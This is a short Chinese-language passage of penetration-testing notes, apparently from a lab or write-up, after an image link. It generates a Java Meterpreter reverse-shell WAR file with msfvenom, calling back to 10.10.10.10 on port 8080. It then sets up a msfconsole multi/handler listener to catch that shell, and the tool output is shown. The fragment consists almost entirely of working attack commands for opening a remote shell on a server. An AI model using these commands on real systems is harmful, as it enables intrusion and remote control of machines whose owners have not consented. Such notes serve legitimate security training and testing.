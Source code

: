 ![image-20250302183621629](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250302183621629.png)



使用 msfvenom 生成适用于 war 的反向 shell

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f war -o shell.war

Payload size: 6210 bytes
Final size of war file: 6210 bytes
Saved as: shell.war
```



使用 msfconsole 监听

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD java/meterpreter/reverse_tcp 
PAYLOAD => java/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.10.10.10
LHOST => 10.10.10.10

msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:8080 
```
